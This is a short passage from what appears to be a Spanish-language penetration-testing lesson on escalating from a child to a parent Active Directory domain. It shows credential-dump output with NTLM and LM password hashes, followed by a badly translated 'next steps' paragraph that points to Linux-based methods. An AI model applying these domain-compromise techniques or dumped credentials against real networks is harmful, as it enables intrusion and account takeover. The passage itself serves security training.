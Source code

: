 ```powershell-session
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 2/27/2022 10:53:21 PM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1001
Object Relative ID   : 1001

Credentials:
  Hash NTLM: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 0: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 1: 663715a1a8b957e8e9943cc98ea451b6
    lm  - 0: 6053227db44e996fe16b107d9d1e95a0
```

---

## Siguientes pasos

Ahora que hemos caminado a través del compromiso del dominio de los padres de un niño de un cuadro de ataque de Windows, cubriremos algunas formas de lograr lo mismo si estamos limitados a un host de ataque de Linux.